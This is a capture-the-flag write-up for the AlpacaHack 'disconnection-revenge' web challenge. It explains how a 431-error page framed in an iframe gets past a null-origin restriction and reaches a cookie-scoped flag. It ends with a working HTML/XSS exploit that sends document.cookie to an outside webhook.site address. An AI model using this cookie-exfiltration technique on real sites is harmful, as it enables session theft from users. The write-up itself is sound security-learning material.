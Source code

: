 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466VZXKSOZW%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T133625Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDYaCXVzLXdlc3QtMiJHMEUCIQDTo%2FNE%2F5c6K6WTnnRSaFfsHgHcIbWxsvS1OcvyerZjBQIgBzOYmFOvZb5tHRH78rMERSbi%2B%2FiLdqcCHfzMN%2B1klsoqiAQI7%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDFWDN4m%2BmzHof98r8yrcA2R2EqSWEiKNdzxQ%2F24LUIU66amU%2BSJOsrD0irRnrDhKJynt5kf%2F01VHsTtXEZr7jppsLvDMZ2H2W6NR2UWhv6Td6W8Pq5C%2FmuPy251jFnsDVXfg7%2FzH3RtJOMDrl2wTW60laD%2FpQS%2BVH6IouCu3HszTOT8fyzr3vI25I70ois%2BAekHZ6vIcu0m%2Bg6%2FGL7i0cOJHz0HAiIiFjzzGAupyLtvT1keP%2Fm44QG8KGvpe%2FAyp9gQSYWAYBnKbTsU%2B151t44Bsb%2B8sGTd9%2FYKcjy7Xs7lAo0exnN4lt5aSUDFVXx9FrEY%2FtlLk1J2hDoRcvJleLDODD2xamD2ktzxInnsuNt6BNlR%2BjlU%2BW1c2YuSyXKSafBSQagtkmhzdfj%2BDWL4Y8YKyzsw61jfANFBOQQoozjyxbeCRPnxsG%2FdjAu%2FdTPrMigWQ21Xk04rtffyvhymVzb9oUAu2QwF9If30kOOuW3N7ew2ctJZikT%2BZY1ylvSEWlobZwcD%2BEFaiGC1zqADKZxZLNjsyRJ5yoVDlUx22DVQj%2BUhEZpH6L4CsWfiSSeQPr68unXz5do8RqKGz9FHfod5KfNMYNGm6UAIH0u%2BPs3SekuU4fc2JWZrmWTENs82YtjyoJIqjh4jxmagTMI7ywcEGOqUBgtdLq6sp0sq5lKeJWtLWSwAg1vHyCUb7gdMGXXxfZhQiUoMCaP0SlRaWNrKKV2%2BzKW5k%2FHAkHE7YimE5UOMmyT6%2B%2BEOPV9Wwu%2BSGukiOGWaCDRKBqZJPau0pxCBPGRSdRGU%2Fd5buyXqVMXb%2BJER2PB4Wp8WlUomjc9THTPu96um85j%2B9FDe0GlB5LjCDDFw0O0p4PlMMolM2v8ELv96Y3JGpNHYp\&X-Amz-Signature=1a2fde822217a785f946b8f4049bd37e2d59b1761847983816a544a899e57f7f\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
